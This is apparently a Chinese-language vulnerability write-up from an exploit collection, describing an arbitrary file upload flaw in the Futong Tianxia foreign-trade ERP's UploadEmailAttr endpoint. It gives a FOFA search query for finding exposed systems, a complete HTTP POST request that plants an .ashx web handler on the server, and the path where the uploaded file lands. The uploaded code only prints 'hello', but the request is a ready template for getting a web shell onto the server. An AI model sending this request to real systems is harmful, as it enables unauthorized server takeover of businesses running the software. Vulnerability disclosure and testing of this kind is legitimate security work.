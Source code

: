 # 富通天下外贸ERP UploadEmailAttr存在任意文件上传漏洞

# 一、漏洞简介
富通天下外贸ERP基于二维界面管理功能，用户可对客户进行精细化的服务和跟踪，客户基本情况、邮件往来样品寄送记录、报价记录、定金收款情况等，信息脉络化，外贸管理软件让您全方位俯瞰客户管理。该系统存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 富通天下外贸ERP

# 三、资产测绘
+ fofa`title="用户登录_富通天下外贸ERP"`
+ 特征

![1713317155013-b6ef7c19-c580-49fc-b352-d4cd4f06a47e.png](./img/9M-_KrPGGCIelEMF/1713317155013-b6ef7c19-c580-49fc-b352-d4cd4f06a47e-088702.png)

# 四、漏洞复现
```plain
POST /JoinfApp/EMail/UploadEmailAttr?name=.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36(KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: application/x-www-form-urlencoded

<% @ webhandler language="C#" class="AverageHandler" %>
using System;
using System.Web;
public class AverageHandler : IHttpHandler
{
public bool IsReusable
{ get { return true; } }
public void ProcessRequest(HttpContext ctx)
{
ctx.Response.Write("hello");
}
}
```

![1713317237034-4f5b8a5e-4517-4159-a8dc-98dc7538b480.png](./img/9M-_KrPGGCIelEMF/1713317237034-4f5b8a5e-4517-4159-a8dc-98dc7538b480-766000.png)

文件上传位置

```plain
/JoinfWebFile/temp/emailatta/202404/20240417D636C4D1F279410CB324E1AFFE28B141.ashx
```

![1713317277788-4eb77664-b181-480c-9914-8a1b6082429a.png](./img/9M-_KrPGGCIelEMF/1713317277788-4eb77664-b181-480c-9914-8a1b6082429a-053808.png)



> 更新: 2024-04-17 14:59:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zy1m23vzu6i6aq36>